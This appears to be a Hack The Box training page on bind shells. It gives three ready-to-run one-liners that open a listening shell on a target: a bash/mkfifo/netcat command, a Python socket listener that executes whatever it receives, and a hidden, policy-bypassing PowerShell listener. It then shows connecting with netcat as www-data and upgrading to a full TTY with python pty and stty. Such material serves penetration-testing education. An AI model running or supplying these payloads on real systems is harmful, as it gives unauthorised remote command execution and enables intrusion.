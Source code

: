 > Note: we will start a listening connection on port '1234' on the remote host, with IP '0.0.0.0' so that we can connect to it from anywhere.


- The following are reliable commands we can use to start a bind shell:
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f
```
```
python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'
```
```
powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();
```
- Once we execute the bind shell command, we should have a shell waiting for us on the specified port. We can now connect to it.
- We can use `netcat` to connect to that port and get a connection to the shell:
```
secmancer@htb[/htb]$ nc 10.10.10.1 1234

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
- As we can see, we are directly dropped into a bash session and can interact with the target system directly. 
- Unlike a `Reverse Shell`, if we drop our connection to a bind shell for any reason, we can connect back to it and get another connection immediately. 
- However, if the bind shell command is stopped for any reason, or if the remote host is rebooted, we would still lose our access to the remote host and will have to exploit it again to gain access.
- Once we connect to a shell through Netcat, we will notice that we can only type commands or backspace, but we cannot move the text cursor left or right to edit our commands, nor can we go up and down to access the command history. 
- To be able to do that, we will need to upgrade our TTY. This can be achieved by mapping our terminal TTY with the remote TTY.
- There are multiple methods to do this. For our purposes, we will use the `python/stty` method. In our `netcat` shell, we will use the following command to use python to upgrade the type of our shell to a full TTY:
```
secmancer@htb[/htb]$ python -c 'import pty; pty.spawn("/bin/bash")'
```
After we run this command, we will hit `ctrl+z` to background our shell and get back on our local terminal, and input the following `stty` command:
```
www-data@remotehost$ ^Z

secmancer@htb[/htb]$ stty raw -echo
secmancer@htb[/htb]$ fg

[Enter]
[Enter]
www-data@remotehost$
```
- Once we hit `fg`, it will bring back our `netcat` shell to the foreground. 
- At this point, the terminal will show a blank line. We can hit `enter` again to get back to our shell or input `reset` and hit enter to bring it back. 
- At this point, we would have a fully working TTY shell with command history and everything else.
- We may notice that our shell does not cover the entire terminal. To fix this, we need to figure out a few variables. 